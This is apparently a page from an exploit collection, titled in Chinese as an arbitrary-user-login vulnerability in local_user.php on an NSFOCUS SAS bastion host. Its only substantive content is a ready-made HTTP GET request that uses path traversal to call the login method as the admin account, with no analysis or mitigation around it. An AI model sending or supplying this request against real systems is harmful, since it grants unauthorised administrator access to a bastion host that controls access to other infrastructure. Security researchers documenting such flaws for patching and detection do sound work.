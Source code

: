 # 某盟 SAS堡垒机 local_user.php 任意用户登录漏洞

## 某盟 SAS堡垒机 local_user.php 任意用户登录漏洞
```

GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

